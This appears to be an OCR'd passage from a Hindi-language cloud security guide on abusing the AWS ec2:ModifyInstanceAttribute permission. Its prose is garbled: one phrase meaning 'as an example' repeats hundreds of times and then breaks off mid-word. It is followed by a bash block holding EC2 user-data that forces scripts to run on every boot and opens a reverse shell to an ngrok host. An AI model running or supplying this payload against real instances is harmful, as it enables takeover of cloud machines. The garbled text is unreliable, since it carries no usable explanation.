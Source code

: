 एक हमलावर **`ec2:ModifyInstanceAttribute`** के साथ उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के रूप में उदाहरण के
```bash
TEXT='Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
bash -i >& /dev/tcp/2.tcp.ngrok.io/14510 0>&1
--//'
TEXT_PATH="/tmp/text.b64.txt"

```